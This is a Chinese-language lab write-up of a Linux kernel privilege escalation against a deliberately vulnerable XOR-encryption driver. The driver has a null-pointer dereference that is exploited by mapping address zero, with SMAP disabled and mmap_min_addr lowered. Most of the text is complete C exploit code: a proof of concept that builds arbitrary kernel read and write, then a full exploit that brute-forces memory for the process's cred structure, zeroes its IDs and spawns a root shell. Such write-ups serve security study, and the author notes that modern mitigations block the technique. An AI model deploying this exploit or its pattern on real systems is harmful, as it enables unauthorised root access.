



# 漏洞分析

*本次的利用环境中取消了smap保护并设值了/proc/sys/vm/mmap_min_addr这个系统变量为0*

总的来说是一种比较原始的利用方式，在当前的内核中已经引入了多种防护措施基本上完全预防了这这种攻击手法。所以这次只是简单看下它的利用思路

本次的带漏洞驱动的中的主要功能是对用户传入的数据进行异或加密，在驱动中体现为：

```c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}
```

它包含了一个自定义的结构体XorCipher，这结构体包含了对应的key数据及其长度以及data数据及其长度：

```c
typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;
```

在驱动中存在一些决定后面ioctl操作的宏定义：

```c
#define CMD_INIT    0x13370001
#define CMD_SETKEY  0x13370002
#define CMD_SETDATA 0x13370003
#define CMD_GETDATA 0x13370004
#define CMD_ENCRYPT 0x13370005
#define CMD_DECRYPT 0x13370006
```

这些宏定义在后面module_ioctl 的switch操作中会被使用。首先看下驱动在被调用初始化时完成的功能为：

```c
    case CMD_INIT:
      if (!ctx)
        filp->private_data = (void*)kzalloc(sizeof(XorCipher), GFP_KERNEL);
      if (!filp->private_data) return -ENOMEM;
      break;
```

之后是设置key数据的操作，限制了key数据的长度，对原始key指针对应的内存位置进行了释放，最后将用户传入的key数据写入结构体的对应指针指向的内存位置：

```c
    case CMD_SETKEY:
      if (!ctx) return -EINVAL;
      if (!req.ptr || req.len > 0x1000) return -EINVAL;
      if (ctx->key) kfree(ctx->key);
      if (!(ctx->key = (char*)kmalloc(req.len, GFP_KERNEL))) return -ENOMEM;

      if (copy_from_user(ctx->key, req.ptr, req.len)) {
        kfree(ctx->key);
        ctx->key = NULL;
        return -EINVAL;
      }

      ctx->keylen = req.len;
      break;
```

与设置key数据相同的，也完成了对data数据的传入与设置：

```c
    case CMD_SETDATA:
      if (!ctx) return -EINVAL;
      if (!req.ptr || req.len > 0x1000) return -EINVAL;
      if (ctx->data) kfree(ctx->data);
      if (!(ctx->data = (char*)kmalloc(req.len, GFP_KERNEL))) return -ENOMEM;
      
      if (copy_from_user(ctx->data, req.ptr, req.len)) {
        kfree(ctx->key);
        ctx->key = NULL;
        return -EINVAL;
      }

      ctx->datalen = req.len;
      break;
```

由于异或操作有自反性，所以加密解密可以直接用同一个xor函数，最后用户可以通过CMD_GETDATA获取加密或者解密后的data数据：

```c
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL;
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;
```

本次的实验环境中不存在溢出漏洞或者UAF，但是存在一个空指针解引用的漏洞，它是这样形成的：

```c
ctx = (XorCipher*)filp->private_data;
```

在这里获取了filp中的private_data，并将其转换成XorCipher类型的结构进行后续的使用，在CMD_SETKEY以及CMD_SETDATA操作中均对这个ctx进行了初始化检查：

```c
if (!ctx) return -EINVAL;
```

但是在CMD_SETDATA操作中却没有对其中的key部分进行初始化检查：

```c
if (!ctx->data) return -EINVAL;
```

我们可以写个正常的驱动调用程序验证一下：

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_INIT 0x13370001
#define CMD_SETKEY 0x13370002
#define CMD_SETDATA 0x13370003
#define CMD_GETDATA 0x13370004
#define CMD_ENCRYPT 0x13370005
#define CMD_DECRYPT 0x13370006

int fd = 0;

typedef struct {
  char *ptr;
  size_t len;
} request_t;

int angus_init(void) {
  request_t req = {NULL};
  return ioctl(fd, CMD_INIT, &req);
}
int angus_setkey(char *key, size_t keylen) {
  request_t req = {.ptr = key, .len = keylen};
  return ioctl(fd, CMD_SETKEY, &req);
}
int angus_setdata(char *data, size_t datalen) {
  request_t req = {.ptr = data, .len = datalen};
  return ioctl(fd, CMD_SETDATA, &req);
}
int angus_getdata(char *data, size_t datalen) {
  request_t req = {.ptr = data, .len = datalen};
  return ioctl(fd, CMD_GETDATA, &req);
}
int angus_encrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}
int angus_decrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}

int main() {
  unsigned char buf[0x10];
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1)
    perror("/dev/angus");

  angus_init();
  angus_setkey("ABC123", 6);
  angus_setdata("Hello, World!", 13);

  angus_encrypt();
  angus_getdata(buf, 13);
  for (int i = 0; i < 13; i++) {
    printf("%02x ", buf[i]);
  }
  putchar('\n');

  angus_decrypt();
  angus_getdata(buf, 13);
  for (int i = 0; i < 13; i++) {
    printf("%02x ", buf[i]);
  }
  putchar('\n');

  close(fd);
  return 0;
}
```

在实验环境中的正常调用情况为：



然后我们尝试不初始化直接加密操作：



会发现内核崩溃了，崩溃的原因是尝试对0000000000000008 进行解引用，也就是所谓的空指针解引用

# 漏洞利用

在Linux中，虚拟内存根据地址的不同用途也不同。例如，用户空间可以自由的使用0000000000000000 到 00007ffffffffffff 的区域。此外，从 ffffffff80000000 到 ffffffff9fffffff 的区域是内核数据区，映射到物理地址 0。

而由用户可以自由的使用0000000000000000 到 00007ffffffffffff 的区域，所以当地址0被映射的时候，一个空指针是可以读写且不会引发段错误的。所以，在SMAP被禁用时，内核是可以通过解引用一个空指针来读取提前在地址0处准备好的攻击数据。

在平时使用mmap时，将第一个参数置为0而不加其他标志位表示让内核决定将内存分配到什么位置上，也可以通过添加标志位来让内核从指定位置上分配内存，例如：

```c
mmap(0, 0x1000, PROT_READ|PROT_WRITE,
     MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE,
     -1, 0);
```

主要是这3个标志位：

- MAP_FIXED：强制映射到第一个参数给定的地址（这里是 `0x0`）
-  MAP_ANONYMOUS：映射的是匿名内存（也就是将fd置为-1，不与任何文件关联）
- MAP_POPULATE：在 `mmap` 调用时立即将映射区域的页 **预先分配物理内存**；避免在后续访问时触发缺页异常（尤其在 KPTI 环境下，有时内核不允许低地址页懒加载）；

这样就可以在0地址处强制映射一块0x1000大小的内存。然后结合驱动中的空指针解引用漏洞就可以控制利用这块0地址内存。

**tips：这种利用手法在现在已经无法使用了，在Linux中现在引入了一个mmap_min_addr 的变量，用于限制mmap函数能够映射的最小虚拟地址**

那么在利用思路上就很简单了。前面我们已经知道，在这个驱动中，程序不会对CMD_GETDATA以及CMD_ENCRYPT、CMD_DECRYPT操作进行初始化检查，那么我们只要在0地址处控制一个`XorCipher`结构体就可以通过对这个结构体进行读写来完成AAW和AAR。

对于这个XorCipher结构体：

```c
typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;
```

结合CMD_GETDATA可以完成AAR，结合CMD_ENCRYPT、CMD_DECRYPT可以完成AAW。

在CMD_GETDATA操作中，对于数据读取返回是这样的：

```c
if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
```

像copy_to_user这类的函数，即使传入的是未被映射的错误地址，内核也不会发生崩溃，在这种前提下，我们就可以选择使用爆破的方法来搜寻所需位置上的某些数据。

下面我们进行一个测试，来验证这种利用方式的可行性：

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <unistd.h>

#define CMD_INIT 0x13370001
#define CMD_SETKEY 0x13370002
#define CMD_SETDATA 0x13370003
#define CMD_GETDATA 0x13370004
#define CMD_ENCRYPT 0x13370005
#define CMD_DECRYPT 0x13370006

typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;

typedef struct {
  char *ptr;
  size_t len;
} request_t;

XorCipher *nullptr = NULL;

int fd = 0;

int angus_getdata(char *data, size_t datalen) {
  request_t req = {.ptr = data, .len = datalen};
  return ioctl(fd, CMD_GETDATA, &req);
}

int angus_encrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}
int angus_decrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}

void AAR(char *dst, char *src, size_t len) {
  nullptr->data = src;
  nullptr->datalen = len;
  angus_getdata(dst, len);
}

void AAW(char *dst, char *src, size_t len) {
  // 由于驱动中对于数据的存储需要经过一个异或的操作，所以我们需要利用异或的自反性处理一下数据后传入
  char *tmp = (char *)malloc(len);
  if (tmp == NULL)
    perror("tmp alloc fail!");
  AAR(tmp, dst, len); // 将 dst 中的数据读到 tmp 中

  for (int i = 0; i < len; i++) {
    tmp[i] ^= src[i];
    // 将要写入dst中的数据与原本dst中数据进行异或（利用异或的自反性）
    // tmp(dst) ^ src ^ dst =src
  }

  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;

  angus_encrypt();
}

int main() {
  fd = open("/dev/angus", O_RDWR);

  if (mmap(0, 0x1000, PROT_READ | PROT_WRITE,
           MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE | MAP_POPULATE, -1,
           0) != NULL) // 在地址0处映射一块内存
  {
    perror("mmap failed");
  }

  char buf[0x10];
  AAR(buf, "hello, world!", 13);
  printf("AAR try to read buf: %s\n", buf);
  AAW(buf, "this is a test", 14);
  printf("AAW try to write buf:%s\n", buf);

  close(fd);

  return 0;
}
```

这个POC中，我们并没有对XorCipher结构体进行初始化，但是我们可以通过对于0地址处的内存空间进行映射以完成对于这个指向NULL的XorCipher结构体指针中数据的控制：



那么如何利用这个漏洞提权呢？

本次的实验环境不存在数据泄露，无法像前几次一样泄露内核基址。这次采取的办法是爆破，通过搜索找到进程的cred结构体，并修改其中的id标志位来完成提权。

根据网上查到的资料，cred结构体在kaslr机制的作用下的变化范围是：

```
0xffff888000000000~0xffffc88000000000
```

所以我们将在这个地址范围内尝试强搜出cred结构体：

```c
prctl(PR_SET_NAME, "deadbeef"); //将当前的进程名改为deadbeef
  unsigned long addr;
  size_t stride = 0x1000000;
  char *needle, *buf = malloc(stride);
  if (!buf)
    fatal("malloc(stride)");
  for (addr = 0xffff888000000000; addr < 0xffffc88000000000; addr += stride) {
    if (addr % 0x10000000000 == 0)
      printf("[*] Searching 0x%016lx...\n", addr);

    if (AAR(buf, (char *)addr, stride) != 0)
      continue;

    if (needle = memmem(buf, stride, "deadbeef", 8)) {
      addr += (needle - buf);
      printf("[+] Found comm: 0x%016lx\n", addr);
      break;
    }
  }
  if (addr == 0xffffc88000000000) {
    puts("[-] Not found");
    exit(1);
  }

  unsigned long addr_cred;
  AAR((char *)&addr_cred, (char *)(addr - 8), 8);
  printf("[+] cred: 0x%016lx\n", addr_cred);

  char zero[0x20] = {0};
  AAW((char *)(addr_cred + 4), zero, sizeof(zero));

  puts("[+] Win!");
  system("/bin/sh");
```

**tips：task_struct结构体中存储进程名称的部分是：`char comm[TASK_COMM_LEN]`，在这个comm字段的前面0x8处即是：`const struct cred* cred`，也就是cred结构体**

另外，找到cred结构体进行覆写提权的时候，注意到这里覆写时加上了一个0x4的偏移：

```c
AAW((char *)(addr_cred + 0x4), zero, sizeof(zero));
```

这是由于在cred结构体中，在8个ID字段之前还有一个字段：

```
atomic_t	usage;
```

这个atomic_t类型可以查到是一个4字节大小的字段，所以这里要加上一个0x4的偏移。


总的exp为：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <unistd.h>

#define CMD_INIT 0x13370001
#define CMD_SETKEY 0x13370002
#define CMD_SETDATA 0x13370003
#define CMD_GETDATA 0x13370004
#define CMD_ENCRYPT 0x13370005
#define CMD_DECRYPT 0x13370006

typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;

typedef struct {
  char *ptr;
  size_t len;
} request_t;

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

int fd;

int angus_init(void) {
  request_t req = {NULL};
  return ioctl(fd, CMD_INIT, &req);
}
int angus_setkey(char *key, size_t keylen) {
  request_t req = {.ptr = key, .len = keylen};
  return ioctl(fd, CMD_SETKEY, &req);
}
int angus_setdata(char *data, size_t datalen) {
  request_t req = {.ptr = data, .len = datalen};
  return ioctl(fd, CMD_SETDATA, &req);
}
int angus_getdata(char *data, size_t datalen) {
  request_t req = {.ptr = data, .len = datalen};
  return ioctl(fd, CMD_GETDATA, &req);
}
int angus_encrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}
int angus_decrypt() {
  request_t req = {NULL};
  return ioctl(fd, CMD_ENCRYPT, &req);
}

XorCipher *nullptr = NULL;

int AAR(char *dst, char *src, size_t len) {
  nullptr->data = src;
  nullptr->datalen = len;
  return angus_getdata(dst, len);
}

void AAW(char *dst, char *src, size_t len) {
  char *tmp = (char *)malloc(len);
  if (tmp == NULL)
    fatal("malloc");
  AAR(tmp, dst, len);

  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}

int main() {
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1)
    fatal("/dev/angus");

  if (mmap(0, 0x1000, PROT_READ | PROT_WRITE,
           MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE | MAP_POPULATE, -1,
           0) != NULL)
    fatal("mmap");

  prctl(PR_SET_NAME, "deadbeef");
  unsigned long addr;
  size_t stride = 0x1000000;
  char *needle, *buf = malloc(stride);
  if (!buf)
    fatal("malloc(stride)");
  for (addr = 0xffff888000000000; addr < 0xffffc88000000000; addr += stride) {
    if (addr % 0x10000000000 == 0)
      printf("[*] Searching 0x%016lx...\n", addr);

    if (AAR(buf, (char *)addr, stride) != 0)
      continue;

    if (needle = memmem(buf, stride, "deadbeef", 8)) {
      addr += (needle - buf);
      printf("[+] Found comm: 0x%016lx\n", addr);
      break;
    }
  }
  if (addr == 0xffffc88000000000) {
    puts("[-] Not found");
    exit(1);
  }

  unsigned long addr_cred;
  AAR((char *)&addr_cred, (char *)(addr - 8), 8);
  printf("[+] cred: 0x%016lx\n", addr_cred);

  char zero[0x20] = {0};
  AAW((char *)(addr_cred + 4), zero, sizeof(zero));

  puts("[+] Win!");
  system("/bin/sh");
  return 0;
}
```

